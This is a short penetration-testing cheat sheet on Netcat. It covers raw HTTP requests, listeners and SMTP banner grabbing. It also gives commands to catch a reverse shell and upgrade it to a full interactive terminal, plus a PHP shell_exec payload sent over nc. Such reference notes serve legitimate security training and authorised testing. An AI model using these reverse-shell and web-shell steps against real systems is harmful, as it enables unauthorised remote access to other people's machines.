 ```yaml
---
title: Netcat
desc: Manages network connections. Also known as 'nc'.
tags: [ActiveRecon, Linux, Network, PrivEsc, ReverseShell, SMTP, Web]
alts: [Ncat, Telnet]
website:
render_with_liquid: false
---
```


## HTTP request

```sh
echo -en "GET / HTTP/1.1\nhost: netcat\n\n" | nc 10.10.44.191 80
```

<br />

## Listen

```sh
# HTTP
nc -lvnp 80

# HTTPS
nc -lvnp 443
```

<br />

## Listen (background)

```sh
# Add '&'
nc -lvnp 4444 &
```

<br />

## Listen for Reverse Shell

```sh
nc -lvnp 4444

# ---- Activate -------------------------

# Interactive shell
/bin/bash -i

# Upgrade to fully functional terminal
$ SHELL=/bin/bash script -q /dev/null
# or
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

<br />

## PHP Shell

```sh
nc <target-ip> 80
<?php echo shell_exec('whoami') ?>
```

<br />

## SMTP Banner Grabbing

```sh
nc -vn <target-ip> 25
```